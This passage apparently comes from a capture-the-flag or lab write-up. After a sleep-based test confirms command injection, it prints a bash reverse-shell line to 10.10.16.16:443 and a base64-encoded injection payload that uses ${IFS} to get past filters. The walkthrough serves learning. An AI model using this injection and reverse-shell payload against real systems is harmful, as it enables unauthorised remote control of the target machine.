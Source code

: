 ![Sleep 5](./sleep_5.png)
> _Figure 10_: **Server waiting 5 seconds to come back.**

Knowing that I send following payload encoded in base64 to get a reverse shell.

```bash
echo "bash  -i >& /dev/tcp/10.10.16.16/443  0>&1  " | base64
PAYLOAD=";echo${IFS}YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTYvNDQzICAwPiYxICAK|base64${IFS}-d|bash;"
```

![RevShell](./payload.png)
> _Figure 11_: **Request with the payload.**
